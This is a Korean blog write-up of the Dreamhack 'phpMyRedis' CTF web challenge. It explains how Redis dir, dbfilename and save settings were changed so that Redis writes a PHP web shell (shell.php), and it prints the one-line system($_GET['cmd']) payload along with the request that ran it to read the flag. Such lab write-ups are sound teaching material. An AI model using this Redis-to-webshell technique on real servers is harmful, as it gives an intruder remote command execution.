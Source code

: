 ```yaml
---
layout: post
title: "[Dreamhack] phpMyRedis WriteUp"
date: 2025-01-12
author: GiuNash
tags: [Dreamhack, Web]
comments: true
toc: true
pinned: true
---
```


## 문제 접근법

phpMyRedis 문제는 Redis의 인 메모리 데이터베이스 특성과 PHP 기반 웹 인터페이스를 활용한 문제였다. 

Redis는 데이터를 key-value 형태로 저장하며, 이를 파일로 저장하거나 명령어 실행에 사용할 수 있다.

문제에서 제공된 주요 파일은 다음과 같았다:

#### config.php

![image](https://github.com/user-attachments/assets/6bf4cdd0-26b5-4a21-b50f-92c91830fff6)

#### index.php

![image](https://github.com/user-attachments/assets/888e0052-10e5-46eb-8ff8-132d86a1289e)

이를 통해 다음 접근 방식을 사용하여 문제를 해결했다:

1. Redis의 GET 명령어를 이용해 서버의 현재 디렉토리를 확인.

2. SET 명령어와 dbfilename 설정을 이용해 웹쉘 파일을 생성.

3. save 설정을 변경하여 Redis 데이터를 강제로 저장.

4. 생성된 웹쉘을 통해 명령어를 실행하여 플래그를 획득.

## 문제풀이

### 현재 디렉토리 확인

config.php에서 Redis의 GET 명령어를 사용하여 dir 명령어로 현재 서버의 디렉토리 구조를 확인했다.

![image](https://github.com/user-attachments/assets/76484cff-acae-4ee4-90b6-e0548b0a9e1c)

### dbfilename 변경

dbfilename의 value는 메모리가 저장되는 파일을 가리키므로

Redis의 데이터를 파일로 저장하는 기능을 활용하기 위해 dbfilename 설정을 shell.php로 변경했다.

![image](https://github.com/user-attachments/assets/bb2e4f1a-517a-4758-9a2a-6f240874605b)

### Redis 데이터 저장 강제화

Redis는 기본적으로 save를 통해 데이터를 주기적으로 저장한다. 

이를 강제로 저장하도록 save 설정을 100 1로 변경하여 100초마다 한 번 변경되면 데이터를 저장하도록 했다.

![image](https://github.com/user-attachments/assets/94b64685-f1cf-4fba-b958-aaafe1e2ac88)

### 웹쉘 생성

command 입력 부분에서 Redis 데이터에 PHP 코드를 삽입하여 웹쉘을 생성했다. 이를 통해 저장된 파일이 실행 가능한 PHP 코드로 동작하도록 했다.

```php
return redis.call("set", "a", "<? system($_GET['cmd']); ?>")
```

명령어 실행 및 플래그 획득생성된 shell.php에 접근하여 명령어를 실행했다.

```
http://http://host1.dreamhack.games:17539/shell.php?cmd=/flag
```

이를 통해 플래그를 성공적으로 획득했다.
